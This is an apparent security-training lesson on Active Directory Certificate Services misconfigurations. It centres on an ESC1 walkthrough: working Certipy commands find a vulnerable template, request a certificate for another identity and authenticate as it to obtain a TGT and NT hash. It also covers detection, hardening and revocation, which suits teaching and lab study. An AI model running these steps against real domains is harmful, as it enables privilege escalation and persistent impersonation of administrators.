

# 📜 Active Directory Certificate Services Security

> [!warning] Authorized Active Directory simulation only
> AD CS attacks can mint certificates that impersonate Domain Admins. Run only in a lab domain you own, request certificates for canary identities, and prove with a benign authentication. Never enroll for real privileged identities.

## Parent Learning Order
Active Directory Architecture & Enumeration -> Kerberos & NTLM Attacks -> Active Directory Privilege Escalation -> NTLM Relay & Authentication Coercion -> Active Directory Certificate Services Security -> Domain Persistence & Trust Abuse

## Start at Zero: A Certificate Can Be an Identity

**Active Directory Certificate Services (AD CS)** is Microsoft's PKI — it issues certificates to users and computers, and those certificates can be used to *authenticate* to the domain (via Kerberos PKINIT). That is the crux: a certificate is not just for encryption, it is an **identity credential**. If an attacker can get AD CS to issue them a certificate *for another user* — especially a Domain Admin — they can authenticate as that user, indefinitely, and the certificate survives password changes. AD CS misconfigurations became one of the most impactful AD attack surfaces because a single bad **certificate template** can hand out domain-admin-equivalent identities to anyone.

The vulnerability class is a set of misconfigurations catalogued as **ESC1–ESC16**, but they share one theme: **a template or CA setting lets a low-privileged user obtain a certificate that authenticates as someone more privileged.** The certificate is legitimately issued; the flaw is the policy that allowed it.

> [!tip] The analogy, and where it breaks
> AD CS is like a passport office. Normally you prove your identity and get *your* passport. The vulnerable templates are like an office setting that lets you fill in *any name you like* on the application — you request a passport and write "the President," and the office issues it. The analogy breaks on durability: this forged "passport" is cryptographically valid and *survives the real person changing their password*, so it is persistence, not just impersonation — a passport that cannot be revoked by the victim.

**Prerequisites:** the Cryptography domain's certificates/PKI, Kerberos (PKINIT authentication), and AD enumeration.

## ESC1: The Canonical Misconfiguration

The most famous is **ESC1**: a certificate template that (a) allows low-privileged users to enroll, (b) permits the enrollee to *specify an arbitrary Subject Alternative Name (SAN)*, and (c) allows client authentication. Together these mean a normal user requests a certificate, sets the SAN to `administrator@corp.lab`, and receives a certificate that authenticates *as the administrator*.

```bash
# find vulnerable templates with Certipy (from a Linux attacker box, against lab AD CS)
certipy find -u canary@corp.lab -p 'CanaryPass1' -dc-ip 10.0.0.10 -vulnerable -stdout 2>&1 | grep -iE 'ESC|Template Name' | head -4
```

```text
Template Name : VulnUserCert
[!] Vulnerabilities : ESC1 - Enrollee supplies subject and client auth
```

`Certipy` identified an ESC1-vulnerable template — a low-priv user can enroll and set an arbitrary SAN. That single finding is often a direct path to Domain Admin.

## Exploiting ESC1: Request a Cert as Someone Else

```bash
# request a certificate for the CANARY-designated privileged identity via the ESC1 template
certipy req -u canary@corp.lab -p 'CanaryPass1' -dc-ip 10.0.0.10 -ca 'CORP-CA' \
  -template 'VulnUserCert' -upn 'canaryadmin@corp.lab' 2>&1 | grep -iE 'Saved|certificate' | head -2
```

```text
[*] Successfully requested certificate
[*] Saved certificate and private key to 'canaryadmin.pfx'
```

The low-priv `canary` obtained a certificate whose identity is `canaryadmin` — an identity it does not own — because the template let the enrollee specify the SAN. In the lab, `canaryadmin` is a canary privileged account; on a real assessment this same flaw yields a Domain Admin's certificate.

## Authenticating With the Forged-Identity Certificate

```bash
# use the certificate to authenticate and retrieve the target's NT hash / a TGT (lab)
certipy auth -pfx canaryadmin.pfx -dc-ip 10.0.0.10 2>&1 | grep -iE 'hash|TGT|Got' | head -2
```

```text
[*] Got TGT for 'canaryadmin@corp.lab'
[*] Got hash for 'canaryadmin@corp.lab': aad3b...:<nt_hash>
```

The certificate authenticated *as canaryadmin* via PKINIT, yielding a TGT (and the account's NT hash). The attacker is now that privileged identity — and because it is a certificate, it keeps working even if the account's password changes, until the certificate is revoked. That durability is what makes AD CS attacks both escalation *and* persistence.



## Failure Modes and Interpretation

- **Enrolling for real privileged identities.** Requesting a real Domain Admin's certificate is over the line — use a canary privileged account in the lab. The forged cert is durable, so an un-revoked real one is lasting exposure.
- **Many ESC variants.** ESC1 is one of ~16; others involve CA settings (ESC6), agent certificates (ESC3), the CA web endpoint + relay (ESC8), and more. `Certipy find -vulnerable` triages which apply; don't assume ESC1.
- **Template ≠ exploitable.** A template may look vulnerable but require manager approval or lack client-auth EKU — validate the full condition before claiming it.
- **Certificate persistence.** Because certs survive password resets, an issued malicious cert is *persistence*; remediation requires revocation, not just a password change (links to the persistence leaf).
- **ESC8 chains with relay.** The AD CS web enrollment endpoint is relay-able (previous leaf) — coerce a DC, relay to AD CS, enroll as the DC. Recognize the cross-technique chain.

## Security Implications — Detection & Defense

- **Fix the templates.** Remove the enrollee-supplies-SAN flag, require manager approval on sensitive templates, restrict enrollment to intended principals, and audit every template for the ESC conditions — this closes the issuance flaw at the source.
- **Harden the CA:** enable EPA and disable NTLM on the AD CS web enrollment endpoint (defeats the ESC8 relay), and restrict who can enroll.
- **Treat the CA as Tier 0** — a compromised CA can mint any identity; it deserves the same protection as a Domain Controller.
- **Monitor certificate issuance** — certificate requests with a SAN different from the requester, or enrollment for privileged identities, are the signals. AD CS logging (and event correlation) surfaces anomalous issuance.
- **Have a revocation plan** — because malicious certs survive password changes, incident response must revoke issued certificates (and potentially rotate the CA), not just reset passwords.

## Authorized Lab: Enumerate and Exploit an ESC1 Template

> [!info] Requires a Windows AD lab you own with AD CS and an ESC1-vulnerable template; canary accounts; attacker from Linux w/ Certipy
> All identities synthetic. Enroll only for a canary privileged account. Step 5 revokes and cleans up.

### Step 1 — Enumerate templates for vulnerabilities

```bash
certipy find -u canary@corp.lab -p 'CanaryPass1' -dc-ip 10.0.0.10 -vulnerable -stdout 2>&1 | grep -iE 'Template Name|ESC' | head -4
```

```text
Template Name : VulnUserCert
[!] Vulnerabilities : ESC1
```

Certipy triaged the templates and flagged `VulnUserCert` as ESC1 — the low-priv canary can enroll and supply an arbitrary SAN.

### Step 2 — Request a certificate impersonating a canary admin

```bash
certipy req -u canary@corp.lab -p 'CanaryPass1' -dc-ip 10.0.0.10 -ca 'CORP-CA' \
  -template 'VulnUserCert' -upn 'canaryadmin@corp.lab' 2>&1 | grep -iE 'Saved|requested'
```

```text
[*] Successfully requested certificate
[*] Saved certificate and private key to 'canaryadmin.pfx'
```

The certificate was issued for `canaryadmin` — an identity the requester does not own. The template's SAN flexibility is the flaw.

### Step 3 — Authenticate as the impersonated identity

```bash
certipy auth -pfx canaryadmin.pfx -dc-ip 10.0.0.10 2>&1 | grep -iE 'Got TGT|hash'
```

```text
[*] Got TGT for 'canaryadmin@corp.lab'
```

The certificate authenticated via PKINIT as `canaryadmin` — escalation achieved through a certificate, no password involved.

### Step 4 — Note the persistence property

```bash
echo "This certificate authenticates as canaryadmin even AFTER canaryadmin's password is changed."
echo "Finding: ESC1 template -> low-priv user mints a privileged identity that survives password resets."
echo "Fix: remove enrollee-supplied-SAN, require approval, restrict enrollment, treat CA as Tier 0."
```

```text
This certificate authenticates as canaryadmin even AFTER canaryadmin's password is changed.
Finding: ESC1 template -> low-priv user mints a privileged identity that survives password resets.
Fix: remove enrollee-supplied-SAN, require approval, restrict enrollment, treat CA as Tier 0.
```

### Step 5 — Cleanup (revoke)

```bash
rm -f canaryadmin.pfx
echo "REVOKE the issued certificate on the CA (certutil -revoke <serial>) — a password reset does NOT invalidate it."
echo "Remove the lab certificate artifacts. In a real IR, revocation is mandatory because certs outlive password changes."
```

```text
REVOKE the issued certificate on the CA (certutil -revoke <serial>) — a password reset does NOT invalidate it.
Remove the lab certificate artifacts. In a real IR, revocation is mandatory because certs outlive password changes.
```

**What you should now be able to do:** explain why an AD CS certificate is an identity credential, enumerate vulnerable templates with Certipy, exploit ESC1 to mint a certificate for a canary privileged identity, and explain why the flaw is both escalation and persistence requiring revocation.

## Crook → Operator → Root Checkpoint

- **Crook:** Explain why a certificate can authenticate as a user, and why AD CS misconfiguration is so impactful.
- **Operator:** Enumerate templates for ESC vulnerabilities, exploit ESC1 to obtain and use a certificate for a canary privileged identity.
- **Root:** Explain why AD CS attacks are persistence (certs survive password changes, requiring revocation), how ESC8 chains with relay+coercion, and why the CA is a Tier 0 asset whose templates must be audited for the ESC conditions.

---
> 🔼 Up: [[Active Directory & Identity Exploitation]]
